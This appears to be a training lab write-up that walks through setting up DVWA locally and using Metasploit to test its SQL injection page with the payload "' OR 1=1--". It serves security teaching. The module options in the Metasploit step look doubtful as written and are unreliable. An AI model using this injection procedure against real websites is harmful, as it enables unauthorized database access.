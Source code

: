 # ✅ Lab 05B: SQL Injection using Metasploit (DVWA / TryHackMe)

## 🎯 Objective

Demonstrate SQL Injection (SQLi) exploitation using Metasploit in a vulnerable lab setup like DVWA or TryHackMe.

## 🛠 Tools Used

- DVWA (Damn Vulnerable Web App)
- Metasploit Framework
- MySQL, Apache, PHP

## 🔄 Task Summary

- Set up DVWA locally.
- Use Metasploit to exploit SQLi vulnerability.
- Understand blind SQL injection automation.

## 🧪 Steps

### 🔹 Step 1: Set up DVWA

`bash
sudo apt update
sudo apt install apache2 mysql-server php php-mysqli git -y
git clone https://github.com/digininja/DVWA.git /var/www/html/dvwa
sudo chown -R www-data:www-data /var/www/html/dvwa
`

### 🔹 Step 2: Configure the database

`bash
sudo mysql -u root
CREATE DATABASE dvwa;
CREATE USER 'dvwauser'@'localhost' IDENTIFIED BY 'dvwapass';
GRANT ALL PRIVILEGES ON dvwa.* TO 'dvwauser'@'localhost';
FLUSH PRIVILEGES;
EXIT;
`

### 🔹 Step 3: Update DVWA config

`bash
sudo nano /var/www/html/dvwa/config/config.inc.php

# Update database user and password to match 'dvwauser' and 'dvwapass'

`

### 🔹 Step 4: Start services

`bash
sudo systemctl start apache2 mysql
`

### 🔹 Step 5: Launch Metasploit and exploit SQLi

`bash
msfconsole
search sql_injection
use auxiliary/scanner/http/sqli_blind
set RHOSTS 127.0.0.1
set TARGETURI /dvwa/vulnerabilities/sqli/
set METHOD GET
set PARAMETER id
set PAYLOAD "' OR 1=1--"
run
`

## 👀 Observations

- SQL Injection allows unauthorized access to the database.
- Metasploit automates the injection and verifies vulnerability.
- Highlights importance of sanitizing user input.

## ✅ Expected Output

- Confirmation of SQL Injection vulnerability.
- Response indicating successful data retrieval or blind sqli trigger.
